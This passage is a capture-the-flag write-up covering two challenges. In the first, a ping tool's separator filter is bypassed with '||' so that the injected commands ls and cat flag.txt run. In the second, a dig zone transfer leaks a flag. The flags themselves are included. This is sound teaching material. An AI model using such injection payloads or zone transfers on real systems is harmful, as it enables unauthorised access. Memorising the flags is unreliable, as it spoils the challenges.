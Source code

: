 **Challenge Description :** Notre prestataire nous a livré un nouvel outil nous permettant de diagnostiquer avec précision les problèmes réseau, mais avant de le mettre en prod j'aimerais que tu y jette un oeil afin d'être sûr qu'il est exempt de toute vulnérabilité.

### Approach

This challenge is a tool for ping, let's try paylaod for command injection with linux separators.

There is filter for `; & && |` separator but `||` pass with (note the `-z` for do an error with `ping` command and execute `ls`):
```python
Please enter the host you would like to ping: -z || ls
flag.txt
ping.py
```

Now I can read flag !
```python
Please enter the host you would like to ping: -z || cat flag.txt
ws{B4d_Pr3sta_H4ck3d}
```

**Flag :** `ws{B4d_Pr3sta_H4ck3d}`

## **Serveur_DNS**

![X category](https://img.shields.io/badge/category-PWN-blue.svg)
![X points](https://img.shields.io/badge/points-50-green.svg)

**Challenge Description :** Arrivera-tu à t'échapper de la prison et trouver le flag ?

### Approach

Let's play with dig for resolve this challenge more precisely with transfer zone:
```shell
dig @challenges.pwner.ovh -p 33223 axfr pwner.ovh

; <<>> DiG 9.16.42-Debian <<>> @challenges.pwner.ovh -p 33223 axfr pwner.ovh
; (1 server found)
;; global options: +cmd
pwner.ovh.		604800	IN	SOA	ns.pwner.ovh. admin.pwner.ovh. 2 604800 86400 2419200 604800
pwner.ovh.		604800	IN	NS	ns.pwner.ovh.
pwner.ovh.		604800	IN	A	192.0.2.1
chall.pwner.ovh.	604800	IN	TXT	"ws{Y0ur3_L3ak3d_DNS}"
ns.pwner.ovh.		604800	IN	A	192.0.2.2
pwner.ovh.		604800	IN	SOA	ns.pwner.ovh. admin.pwner.ovh. 2 604800 86400 2419200 604800
;; Query time: 40 msec
;; SERVER: 46.101.133.19#33223(46.101.133.19)
;; WHEN: Sat Dec 09 20:31:09 CET 2023
;; XFR size: 6 records (messages 1, bytes 232)
```

**Flag :** `ws{Y0ur3_L3ak3d_DNS}`
